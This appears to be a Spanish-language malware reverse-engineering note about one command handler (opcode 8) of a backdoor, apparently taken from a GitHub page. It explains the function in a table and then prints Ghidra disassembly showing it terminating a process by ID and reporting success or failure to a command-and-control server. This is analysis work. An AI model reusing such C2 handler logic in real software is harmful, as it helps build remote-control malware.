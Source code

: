# FUN_00402440 - Opcode 8

La función FUN_00402440 tiene un propósito claro: terminar un proceso dado por ID, usando una lógica condicional para notificar al servidor C2 (Command & Control) si tuvo éxito o no.

Acción	Descripción
Toma un puntero a un identificador de proceso	param_2
Usa OpenProcess y TerminateProcess	Intenta matar el proceso
Informa al C2 si tuvo éxito o no	usando Ordinal_19 (probablemente send)
Usa 0x30 (OK) o 0x31 (FAIL)	como códigos de estado

_____________________________________

# FUN_00402440 Decompilada

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __thiscall FUN_00402440(void * this, undefined
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             void *            ECX:4 (auto)   this
             undefined4        Stack[0x4]:4   param_1
             byte *            Stack[0x8]:4   param_2                                 XREF[1]:     00402440(R)  
                             FUN_00402440                                    XREF[1]:     FUN_004012f0:004017b7(c)  
        00402440 8b 44 24 08     MOV        EAX,dword ptr [ESP + param_2]
        00402444 50              PUSH       EAX
        00402445 e8 23 05        CALL       FUN_0040296d                                     undefined FUN_0040296d(void * th
                 00 00
        0040244a 83 c4 04        ADD        ESP,0x4
        0040244d 50              PUSH       EAX
        0040244e 6a 00           PUSH       0x0
        00402450 6a 01           PUSH       0x1
        00402452 ff 15 64        CALL       dword ptr [->KERNEL32.DLL::OpenProcess]          = 000099e2
                 90 40 00
        00402458 6a ff           PUSH       -0x1
        0040245a 50              PUSH       EAX
        0040245b ff 15 60        CALL       dword ptr [->KERNEL32.DLL::TerminateProcess]     = 000099ce
                 90 40 00
        00402461 85 c0           TEST       EAX,EAX
        00402463 6a 00           PUSH       0x0
        00402465 6a 02           PUSH       0x2
        00402467 74 11           JZ         LAB_0040247a
        00402469 8b 4c 24 0c     MOV        this,dword ptr [ESP + 0xc]
        0040246d 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        00402472 51              PUSH       this
        00402473 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        00402479 c3              RET
                             LAB_0040247a                                    XREF[1]:     00402467(j)  
        0040247a 8b 54 24 0c     MOV        EDX,dword ptr [ESP + 0xc]
        0040247e 68 90 a1        PUSH       DAT_0040a190                                     = 31h    1
                 40 00
        00402483 52              PUSH       EDX
        00402484 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        0040248a c3              RET
        0040248b 90              ??         90h
        0040248c 90              ??         90h
        0040248d 90              ??         90h
        0040248e 90              ??         90h
        0040248f 90              ??         90h

```
